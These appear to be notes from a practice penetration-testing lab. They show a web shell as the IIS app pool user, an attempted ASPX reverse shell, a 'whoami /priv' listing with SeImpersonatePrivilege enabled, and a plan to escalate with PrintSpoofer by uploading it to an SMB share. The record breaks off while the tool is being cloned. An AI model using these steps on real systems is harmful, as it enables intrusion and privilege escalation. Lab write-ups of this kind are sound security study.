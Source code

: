                 c:\windows\system32\inetsrv>

# initial did not work (reverse.aspx) so I retried with reverse1.aspx

# looking through the system, it looks like the nt4wrksv folder is within the wwwroot directory
        # --> maybe possible to use this to our advantage (how? (!))

c:\Users>cd Administrator
cd Administrator
Access is denied.

# lets check our privileges:
c:\Users>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
        # the SeChangeNotifyPrivilege, SeCreateGlobalPrivilege and SeImpersonatePrivilege are both enabled (I am sure I have explolted the latter before...)

c:\Users>whoami
whoami
iis apppool\defaultapppool

        # printspoofer: https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/

        # next steps are therefore:
        # 1 - upload epxloit to smb share (in wwwroot/nt4wrksv)
        (kali㉿kali)-[~/…/practice/relevant/PrintSpoofer/PrintSpoofer]
        └─$ git clone https://github.com/dievus/printspoofer.git
        Cloning into 'printspoofer'...
        remote: Enumerating objects: 6, done.
        remote: Counting objects: 100% (6/6), done.
        remote: Compressing objects: 100% (5/5), done.
        remote: Total 6 (delta 0), reused 0 (delta 0), pack-reused 0
        Receiving objects: 100% (6/6), 11.94 KiB | 11.94 MiB/s, done.
